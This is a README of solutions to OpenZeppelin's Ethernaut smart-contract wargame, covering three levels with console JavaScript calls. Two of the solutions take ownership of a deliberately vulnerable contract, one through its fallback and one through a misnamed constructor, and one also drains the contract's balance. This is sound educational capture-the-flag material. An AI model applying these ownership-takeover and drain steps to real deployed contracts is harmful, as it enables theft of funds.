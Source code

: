 # The Ethernaut CTF Challenge Solutions

*The Ethernaut is a Web3/Solidity based wargame inspired by [overthewire.org](https://overthewire.org/wargames/), played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. The game is 100% open source and all levels are contributions made by other players.*

Concise solutions for OpenZeppelin's Ethernaut CTF. Detailed write-ups pending.

**Completed**

[Level 0: Hello Ethernaut](#HelloEthernaut)  
[Level 1: Fallback](#Fallback)  
[Level 2: Fallout](#Fallout)  

<!---

**Pending**

[Level 3: Coin Flip](#CoinFlip)  
[Level 4: Telephone](#Telephone)  
[Level 5: Token](#Token)  
[Level 6: Delegation](#Delegation)  
[Level 7: Force](#Force)  
[Level 8: Vault](#Vault)  
[Level 9: King](#King)  
[Level 10: Re-entrancy](#Reentrancy)  
[Level 11: Elevator](#Elevator)  
[Level 12: Privacy](#Privacy)  
[Level 13: Gatekeeper One](#GatekeeperOne)  
[Level 14: Gatekeeper Two](#GatekeeperTwo)  
[Level 15: Naught Coin](#NaughtCoin)  
[Level 16: Preservation](#Preservation)  
[Level 17: Recovery](#Recovery)  
[Level 18: Magic Number](#MagicNumber)  
[Level 19: Alien Codex](#AlienCodex)  
[Level 20: Denial](#Denial)  
[Level 21: Shop](#Shop)  
[Level 22: Dex](#Dex)  
[Level 23: Dex Two](#DexTwo)  
[Level 24: Puzzle Wallet](#PuzzleWallet)  
[Level 25: Motorbike](#Motorbike)  
[Level 26: Double Entry Point](#DoubleEntryPoint)  
[Level 27: Good Samaritan](#GoodSamaritan)  
-->

## Requirements
- [Metamask](https://metamask.io/)


## <a name='HelloEthernaut'></a> 0. Hello Ethernaut
> This level walks you through the very basics of how to play the game.


```js
// Call the functions in the order as suggested 
> await contract.info()
< 'You will find what you need in info1().'

> await contract.info1()
< 'Try info2(), but with "hello" as a parameter.'

> await contract.info2("hello")
< 'The property infoNum holds the number of the next info method to call.'

> await contract.infoNum()
// Expand to reveal "42"

> await contract.info42()
< 'theMethodName is the name of the next method.'

> await contract.theMethodName()
< 'The method name is method7123949.'

> await contract.method7123949()
< 'If you know the password, submit it to authenticate().'

// Query the ABI to locate the password() function
> await contract.password()
< 'ethernaut0'

> await contract.authenticate("ethernaut0")
```




## <a name='Fallback'></a> 1. Fallback
> You will beat this level if:
> 1. You claim ownership of the contract
> 2. You reduce its balance to 0

```js
// First, we contribute some ether:
await contract.contribute({value: 5})

// Then we send some ether to make us the owner
sendTransaction({from: player, to: instance, value: 5})

// Verify we have claimed ownership
await contract.owner()

// Reduce balance to 0
await contract.withdraw()
```

## <a name='Fallout'></a> 2. Fallout
> Claim ownership of the contract to complete this level.

The contract's constructor is incorrectly titled `Fal1out` instead of `Fallout`. We can call it to claim ownership.

```js

// Call the function to claim ownership
contract.Fal1out()

// Verify we have claimed ownership
await contract.owner() 
```
